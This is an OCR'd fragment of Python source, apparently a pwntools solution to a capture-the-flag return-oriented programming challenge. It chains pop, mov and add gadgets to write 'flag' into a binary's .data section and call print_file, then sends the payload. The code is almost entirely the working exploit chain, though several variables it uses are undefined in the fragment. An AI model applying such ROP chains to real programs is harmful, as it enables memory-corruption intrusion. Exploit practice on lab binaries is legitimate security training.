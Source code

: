 ```python

# get the address of the print_file function--this is our final function that we are leveraging in order to open the "flag.txt" file                    
print_file_addr = p32(elf.symbols["plt.print_file"])

# arguments for the print_file function are stored in .data section header
args = data_addr

payload = [
        buf,                            # bunch of A's, with EL value = 1
        b"bbbb",                        # fake ebp
        pop_values_gadget,              # addr of "pop edi; pop ebp; ret;"
        esi1,                           # "flag" 
        edi1,                           # addr of start of .data section header
        fake_ebp1,                      # addr of start of .data section header
        store_string_in_data_gadget,     # addr of useful gadget = mov [edi], ebp
        pop_values_gadget,
        esi2,
        edi2,
        fake_ebp2,
        store_string_in_data_gadget,
        add_1_to_string_gadget,
        pop_values_gadget,
        esi3,
        edi3,
        fake_ebp3,
        store_string_in_data_gadget,
        add_1_to_string_gadget,
        pop_values_gadget,
        esi4,
        edi4,
        fake_ebp4,
        store_string_in_data_gadget,
        add_1_to_string_gadget,
        pop_values_gadget,
        esi5,
        edi5,
        fake_ebp5,
        store_string_in_data_gadget,
        pop_values_gadget,
        esi6,
        edi6,
        fake_ebp6,
        store_string_in_data_gadget,
        add_1_to_string_gadget,
        pop_values_gadget,
        esi7,
        edi7,
        fake_ebp7,
        store_string_in_data_gadget,
        print_file_addr,
        b"cccc",
        args
        ]

payload = b"".join(payload)
# print("payload is: ", payload)

p.send(payload)

p.interactive()	
print(p.recvall())
p.close()
```